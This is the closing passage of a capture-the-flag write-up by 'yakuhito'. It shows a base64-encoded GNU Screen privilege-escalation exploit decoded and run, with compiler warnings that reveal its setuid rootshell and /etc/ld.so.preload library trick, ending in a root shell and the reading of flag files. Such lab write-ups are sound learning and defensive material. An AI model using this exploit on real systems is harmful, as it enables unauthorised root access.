k7CiAgICBleGVjdnAoIi9iaW4vc2giLCBOVUxMLCBOVUxMKTsKfQpFT0YKZ2NjIC1vIC90bXAvcm9vdHNoZWxsIC90bXAvcm9vdHNoZWxsLmMKcm0gLWYgL3RtcC9yb290c2hlbGwuYwplY2hvICJbK10gTm93IHdlIGNyZWF0ZSBvdXIgL2V0Yy9sZC5zby5wcmVsb2FkIGZpbGUuLi4iCmNkIC9ldGMKdW1hc2sgMDAwICMgYmVjYXVzZQpzY3JlZW4gLUQgLW0gLUwgbGQuc28ucHJlbG9hZCBlY2hvIC1uZSAgIlx4MGEvdG1wL2xpYmhheC5zbyIgIyBuZXdsaW5lIG5lZWRlZAplY2hvICJbK10gVHJpZ2dlcmluZy4uLiIKc2NyZWVuIC1scyAjIHNjcmVlbiBpdHNlbGYgaXMgc2V0dWlkLCBzby4uLiAKL3RtcC9yb290c2hlbGwK | base64 -d > exploit.sh
<4uLiAKL3RtcC9yb290c2hlbGwK | base64 -d > exploit.sh
www-data@Wall:/tmp/yakuhito$ bash exploit.sh
bash exploit.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
; from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
#



I was then able to read both user.txt and root.txt:


# wc -c /root/root.txt    
wc -c /root/root.txt
33 /root/root.txt
# wc -c /home/shelby/user.txt
wc -c /home/shelby/user.txt
33 /home/shelby/user.txt



The user proof starts with `fe` and the root proof starts with `1f` 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

